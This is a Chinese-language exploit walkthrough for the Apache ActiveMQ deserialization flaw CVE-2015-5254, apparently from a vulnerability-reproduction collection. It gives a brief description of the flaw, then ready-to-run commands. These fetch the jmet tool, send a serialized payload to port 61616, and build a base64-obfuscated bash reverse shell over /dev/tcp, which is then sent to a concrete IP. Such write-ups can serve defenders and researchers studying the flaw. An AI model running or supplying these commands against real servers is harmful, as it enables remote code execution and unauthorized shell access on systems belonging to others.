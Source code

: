 # Apache-ActiveMQ-反序列化漏洞-CVE-2015-5254

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

> [!NOTE]
>
> Apache ActiveMQ 5.13.0之前5.x版本

## 漏洞复现

首先下载 jmet [下载链接](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar)

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成**/tmp/vuln**的 payload

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/vuln" -Yp ROME xxx.xxx.xxx.xxx 61616
```

访问 http://xxx.xxx.xxx.xxx:8161/admin/browse.jsp?JMSDestination=event 可以看到多了一条消息队列

![](Apache-ActiveMQ-反序列化漏洞-CVE-2015-5254.assets/1627363452909502.jpg)

点击这个信息触发文件创建

![](Apache-ActiveMQ-反序列化漏洞-CVE-2015-5254.assets/1627363453234177.jpg)

成功执行命令创建文件，也可以创建一个反弹shell的payload

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 172.21.231.183 61616
```

同样点击消息队列会触发命令执行

![](Apache-ActiveMQ-反序列化漏洞-CVE-2015-5254.assets/1627363453673207.jpg)